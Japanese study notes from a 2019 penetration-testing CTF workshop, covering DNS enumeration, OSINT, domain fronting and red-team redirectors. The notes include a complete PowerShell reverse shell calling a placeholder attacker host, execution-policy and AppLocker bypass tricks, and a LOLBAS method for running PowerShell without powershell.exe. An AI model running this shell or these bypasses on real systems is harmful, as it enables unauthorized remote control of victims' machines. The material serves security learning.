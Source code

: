 ```yaml
---
date: 2019-12-29
description: '浪速セキュリティnote'
tags:
 - 記録
---
```


# 浪速セキュリティnote
12/29(日)に開催された[浪速セキュリティ勉強会#04 #05：ペンテストCTFで学ぶサイバーセキュリティ（12月29日)](https://naniwasecurity.connpass.com/event/154331/)に参加した際のarchive

## 基礎知識
 - 今回は実際に攻撃するまでの偵察がメイン
 - `nc -lvnp 80`でlisten

### redirector
 - targetとattackerの間に配置して, targetと直接通信するサーバ
 - これ自身を調べても本体はいない
 - 自分たちの安全を保証するために挟むのが一般的
 - ペンテストやレッドチームもこういったところまでやる必要がある
 - 目的
   - 自分たちをtargetから隠す
   - redirectorをtakedownされても別のredirectorを立てればよい

## DNSの調査
### domain fronting
   - HTTPS接続のドメインを難読化(解析困難化)することによってインターネットの検閲やブロッキングを回避する手法
   - 例えば、CDNのサーバーにリフレクションサーバーを紛れ込ます手法などかある
     - ref: [Domain Fronting (まとめ)](https://malware-log.hatenablog.com/entry/Domain_Fronting)
   - 最近はreputationで判断しているので, false positiveがある
     - [domainFrontingLists](https://github.com/vysecurity/DomainFrontingLists)
     - [WebPulse Site Review Request](https://sitereview.bluecoat.com/#/)

### DNSの調査(DNS Enumeration)
 - targetのname serverの探索
 - [zonetransfer.me](zonetransfer.me)は脆弱なやられサーバ的な感じ

 - nsレコードをもらってくる
   - `host -t ns {targetip}`

```
~# host -t ns zonetransfer.me
zonetransfer.me name server nsztm1.digi.ninja.
zonetransfer.me name server nsztm2.digi.ninja.

```

 - mxレコードをもらってくる
   - `host -t mx {targetip}`

```
# host -t mx zonetransfer.me
zonetransfer.me mail is handled by 0 ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 10 ALT2.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX4.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 10 ALT1.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX5.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX3.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX2.GOOGLEMAIL.COM.
```

   - 相手はメールをgmailの管理サーバを使っていることがわかる
   - -> 標的型攻撃をする場合, googleの持っている機能はscanされてしまうこともわかる
   - -> malwareを作って添付しても, そもそも相手に着弾しない可能性がある
   - -> 着弾するかしないかは, 自分でgoogleのメールサーバを使って確認することができる
   - これは他のメールサービスでも同様

### DNS Lookup
 - 存在しそうなホスト名にDNSパケットを飛ばして確認する手法

```
for name in $(cat /usr/share/dnsenum/dns.txt); do
host ${name}. zonetransfer.me | grep "has address" | cut -d " " -f 1,4
done
```

### Reverse DNS Lookup
 - 1つ存在しているホスト名を見つけ, 存在しているホスト名の近くを使っていると想定して上でBruteForceを試す手法
 - 192.168.33.{brute force}

### DNS Zone Transfer
 - ゾーン転送情報取得を用いて確認する手法
 - dig axfr @... addr

### 内部のサーバのレコードを見る
 - サーバ証明書を発行した時に発行した旨をDBに蓄積する
 - これが改ざんされていないかを確認する仕組みがある
   - [【講演】Certificate Transparencyを知ろう ～証明書の透明...](https://www.jnsa.org/seminar/pki-day/2016/data/1-2_oosumi.pdf)
 - このログサーバは公開されている
   - 内部のサーバレコードが見れる
   - 命名から中身が想定できる
 - [findomain](https://github.com/Edu4rdSHL/findomain)
 
### RedirectorとRedirectの違い
 - redirectorは直接通信する
 - redirectは挟んで通信するので遮断される可能性がある

## OSINT
### Google Search Operator
   - [GoogleGuide making searching even easier](http://www.googleguide.com/print/adv_op_ref.pdf)
   - 空白はOR
   - `-`は除外
   - `site:`
   - `filetype:`
     - `filetype:pdf`が便利
### Twitter Serach Operators
   - [Rules and filtering](https://developer.twitter.com/en/docs/tweets/rules-and-filtering/overview/standard-operators)
   - `geocode: 緯度,経度,距離km`
   - [google hacking database](https://www.exploit-db.com/google-hacking-database)
   - 社内向け資料に連絡先があるなど
 
## ReverseShell
### PowerShell
 - PowerShellでファイルを実行するにはExecutionPolicyを設定し直す必要がある
   - [設定値等についてはこちら(Qiita: PowerShellのExecutionPolicyのスコープとかについて詳しく)](https://qiita.com/kikuchi/items/59f219eae2a172880ba6)

```
Set-ExecutionPolicy bypass`
start-process calc.exe
powershell.exe -executionpolicy bypass gen_calc.ps1
```

 - ReverseShell用のCSharpCode

```
$client = New-Object System.Net.Sockets.TCPClient("attackerAddress",443);
$stream =$client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback =(iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};

$client.Close()
```

### PowerShell without powershell.exe
 - SyncAppvは仮想化モジュールの一部
 - powershellのコマンドを受け付ける
   - `C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; start-process calc.exe"`
   - これでcalc.exeが立ち上がる
 - lolbas(Living Off The Land Binaries and Scripts)
   - 現地調達型バイナリ(実行ファイル)
   - [Web: Living Off The Land Binaries and Scripts (and also Libraries)](https://lolbas-project.github.io/)
   - [GitHub](https://github.com/LOLBAS-Project/LOLBAS)
   - ここで対象になっている107個のアプリケーションはチェック対象にすることが求められる

### Restricting PowerShell
 - applocker
   - ブラックリスト管理をするのが良い
   - 最初に全て許可してからダメなものをブラックリストに入れる
 - apploockerのbypass
   - powershellを動かせる
   - 対策として, InstallUtil.exeをapplockerに入れる
     - その際に, 過去の実行ログをみて, 使われていない場合は良いかもしれない
     - だいたい使われているので, それらを使っているcallerをホワイトリスト管理するとよい
